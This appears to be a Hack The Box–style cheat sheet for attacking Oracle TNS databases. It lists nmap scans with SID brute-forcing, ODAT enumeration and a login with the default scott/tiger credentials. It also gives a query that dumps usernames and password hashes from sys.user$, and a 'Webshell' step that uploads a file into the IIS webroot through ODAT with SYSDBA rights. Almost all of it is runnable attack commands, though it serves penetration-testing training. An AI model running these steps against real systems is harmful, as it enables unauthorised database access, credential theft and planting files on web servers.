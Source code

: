 
`Orbixio@htb[/htb]$ sudo nmap -p1521 -sV 10.129.204.235 --open`

**SID Bruteforcing**
`Orbixio@htb[/htb]$ sudo nmap -p1521 -sV 10.129.204.235 --open --script oracle-sid-brute`

**Enumeration**
`Orbixio@htb[/htb]$ ./odat.py all -s 10.129.204.235`

**Interaction**
`Orbixio@htb[/htb]$ sqlplus scott/tiger@10.129.204.235/XE`

If you come across the following error sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory, please execute the below:

`Orbixio@htb[/htb]$ sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig`

| **Command**                             | **Detail**                                                               |
| --------------------------------------- | ------------------------------------------------------------------------ |
| `select table_name from all_tables;`    | Returns a list of all table names accessible to the current user.        |
| `select * from user_role_privs;`        | Displays the roles granted to the current user.                          |
| `select * from user_role_privs;`        | Displays the roles granted to the current user.                          |
| `select name, password from sys.user$;` | Retrieves the usernames and hashed passwords from the system user table. |


**Webshell**

```
Orbixio@htb[/htb]$ echo "Oracle File Upload Test" > testing.txt
Orbixio@htb[/htb]$ ./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt

# Test
Orbixio@htb[/htb]$ curl -X GET http://10.129.204.235/testing.txt
```